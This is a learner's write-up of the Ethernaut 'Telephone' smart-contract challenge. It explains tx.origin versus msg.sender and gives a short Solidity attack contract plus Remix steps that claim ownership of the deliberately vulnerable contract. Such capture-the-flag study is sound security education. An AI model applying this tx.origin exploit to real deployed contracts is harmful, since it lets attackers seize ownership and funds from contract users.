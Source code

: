 # Level 4 : Telephone Contract 

## Contract 

```solidity
// SPDX-License-Identifier:MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) { //msg.sender will be the contract attack 
            owner = _owner;
        }
    }
}
```
## Contract Overview

- Contract Telephone has :
    - `owner` - variable of address type that stores the address of the owner.

    - A `Constructor` that assigns the owner to msg.sender at the when deployed.

    - A `changeOwner` function that takes the input of address type `_owner` (that you want to make as owner ).

    - ```solidity
            if (tx.origin != msg.sender) { //msg.sender will be the contract attack 
            owner = _owner;
            }
            ```
    - This code snippet is a conditional statement in Solidity that checks if the original sender of the transaction `tx.origin` is different from the immediate caller of the current function `msg.sender`.

    - `tx.origin` - Represents the address of the Externally Owned Account (EOA) that initiated the entire sequence of calls leading to the execution of this code.
        - This global variable always represents the address of the original account that initiated the entire transaction. This account is always an Externally Owned Account (EOA) – a user's wallet. It remains constant throughout the entire chain of contract calls within that transaction.

        - example :

            - Alice (EOA) calls `ContractA.functionA()`

            - `functionA()` in `ContractA` then calls `ContractB.functionB()`

                - Inside `functionA()` in `ContractA`:

                    - `msg.sender` is Alice's address.

                    - `tx.origin` is Alice's address.

                - Inside `functionB()` in `ContractB`:

                    - `msg.sender` will be the address of ContractA.

                    - `tx.origin` will still be Alice's address.

    - If the Condition `(tx.origin != msg.sender)` is satisfied then the owner ship is tranferred from `owner` to `_owner` . 

## Challenge 

Claim ownership of the contract below to complete this level.

## Solution 

- Wrote an `Attack contract` 
    - ```solidity 
        // SPDX-License-Identifier:MIT
        pragma solidity ^0.8.0;

        import "./telephone-ethernaut.sol"; //import the telephone contract 
        contract Attack {
        Telephone telephone = Telephone(0x49A7e4307482f48B0980a412CEda05039a6DE077);//place the address where the telephone contract is deployed

        function changeOwner(address add) public{
        telephone.changeOwner(add);
        }
        }
        ```
    - In this we call the `changeOwner` function by passing an argument `add`  using its instance `telephone`. 


<a name='steps'></a>

    - **How it Works :** 

        1. Compile & Deploy the `telephone` contract (with address A).

        2. Place that address where the `telephone contract` deployed in the `Attack` Contract (see the code).

        3. Compile & Deploy the `Attack` contract now (with address B).

        4. Call the `changeOwner` function of `Attack` contract (with address D) by passing the `add` (address C).

        5. That `call` made in `Attack` contract calls the `changeOwner`  function of `telephone`

            - So the `tx.origin` gives address D and `msg.sender` gives the address of Contract B. Hence condtion is satisfied.

        6. Then finally the ownership changes from `owner` to `owner`(address c).

## How to run it on Remix Ide 

    Follow the above [steps](#steps)

## What I learnt 

1. What is  `tx.origin` and How it works in different Scenarioes.
2. `tx.origin` vs `msg.sender` . and How they behave when used together and what they returns in different Scenarioes.
